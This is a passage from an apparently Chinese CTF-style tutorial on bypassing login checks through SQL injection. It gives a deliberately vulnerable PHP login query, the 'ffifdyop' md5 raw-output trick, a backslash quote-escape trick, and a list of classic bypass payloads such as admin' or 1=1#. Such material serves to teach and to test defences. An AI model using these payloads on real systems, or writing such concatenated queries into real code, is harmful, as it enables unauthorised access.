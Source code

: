 - 斜杠

注释符和引号被过滤尝试斜杠，斜杠可能可以转义掉单引号

```
\
```

对应的解决方案呢就是做转义喽，同理还有跨域攻击

- 编码类

以md5为例：

如果是**md5后的password**，源码如下

```sql
select * from `admin` where password='".md5($pass,true)."'
```

payload如下

```sql
ffifdyop        //md5(’ffifdyop',true) === $a; $a="'or'1";
```

# 3 万能钥匙-验证逻辑

#### 3.1 没有回环验证

demo:

后端是直接没有回环验证的情况，且存在sql注入时，万能钥匙直接秒

```php
$res = mysql_querry("select id from users where username='"+$_POST['username']+"' and password = '"+$_POST['password']+"';")
if($res){
    print("success! this is your flag{xxx}")
}
```

**payload**

```sql
admin' or 'a'='a
admin' or 1=1#(mysql)
admin' or 1=1--(sqlserver)
admin' or 1=1;--(sqlserver)
' or '1 
 
另一种类型是(利用联合查询产生虚拟数据欺骗php脚本)
admin=' union select 1,2,3;#&passwd=3
```

如果是**md5后的password**，源码如下

```sql
select * from `admin` where password='".md5($pass,true)."'
```
